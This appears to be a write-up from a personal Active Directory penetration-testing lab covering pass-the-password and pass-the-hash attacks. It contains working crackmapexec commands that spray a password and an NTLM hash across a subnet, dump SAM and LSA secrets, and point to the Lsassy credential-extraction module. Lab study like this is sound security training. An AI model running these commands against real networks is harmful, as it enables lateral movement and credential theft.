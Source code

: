 Setup win2022 server: 192.168.64.138  
Setup Peterparker: \192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \192.168.64.129/24  

---

## 🚩 'Pass Attacks' - Pass the Password  

### Pass the Password  
With a SAM dump and cracked hash, we have the ability to push the credentials around with every device that has the ability to recieve and accept the login attempt.  

crackmapexec SMB Password abuse: 

    crackmapexec smb 192.168.64.0/24 -u fcastle -d MARVEL.local -p Password1

![image](https://github.com/user-attachments/assets/025b48ea-6702-4094-ae25-c54168fb1607)
We can see that the username and password has been passed around the network and was successful only on Spiderman and Thepunisher devices. Although there was a succesful authentication on Hyrda-DC, fcastle is not a local admin on that device therefore there is no login. 

---

## 🚩 'Pass Attacks' - Pass the Hash  
### Pass the Hash 
With a SAM dump containing local Admin credentials (likely gathered during the initial attack stage), we can also pass a local admin account username with hash around the network and observe which devices accept these credentials.

crackmapexec SMB Hash abuse:

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth

![image](https://github.com/user-attachments/assets/13e70253-c999-4110-baf0-1cab4d1841f4)  
Local admin account succesful for Spiderman and Thepunisher  

### Note 1 Information gathering  
**Adding the below flags behind --local-auth:**  
--sam (dumps all local SAM files found)  
--shares (shows all accessbile shares)  
--lsa (local security authority)  

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth --sam

### Note 2 (SMB) Modules  
**crackmapexec smb -L will list out all the modules we can use with SMB by adding -M behind --local-auth:**  
-L  
-M Lsassy  
